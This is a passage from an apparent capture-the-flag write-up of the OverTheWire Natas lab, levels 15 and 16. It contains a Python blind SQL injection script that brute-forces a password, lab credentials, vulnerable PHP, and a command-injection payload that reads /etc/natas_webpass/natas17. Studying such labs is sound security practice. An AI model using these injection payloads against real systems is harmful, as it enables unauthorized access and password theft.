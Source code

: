 ```python
import sys
from requests.auth import HTTPBasicAuth

url = "http://natas15.natas.labs.overthewire.org/index.php"
auth = HTTPBasicAuth('natas15','AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')
characters = string.ascii_letters + string.digits
username = ""

while True:
    for c in characters:
        payload = f'natas16" AND password LIKE BINARY "{username + c}%";-- -'
        data = {"username":payload}
        
        print(f"Trying... {payload}")

        r = requests.post(url,data=data,auth=auth)

        if ("This user exists." in r.text):
            username = username + c
            break
        elif (c == '9'):
            print(f"Password: {username}")
            sys.exit()
```

## natas16
```
natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```
The code:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>

```
The injection here is pretty interesting. For starters the payload being used <b>$(grep -E ^a.* /etc/natas_webpass/natas17)needle</b>. If this command evaluates to true and returns an "a", then the payload will be <b>grep -i aneedle dictionary.txt</b> which does not exist in dictionary.txt. If however the payload evaluates to false, then the payload will be <b>grep -i needle dictionary.txt</b> which does exist in dictionary.txt. Essentially, <b>if the inner grep passes, the outer grep will not meaning we are a step closer to leaking the password.</b><br>
My final script was this:
```python
#!/usr/bin/env python3

#=== Modules ===
import requests
import string
import sys
from requests.auth import HTTPBasicAuth
```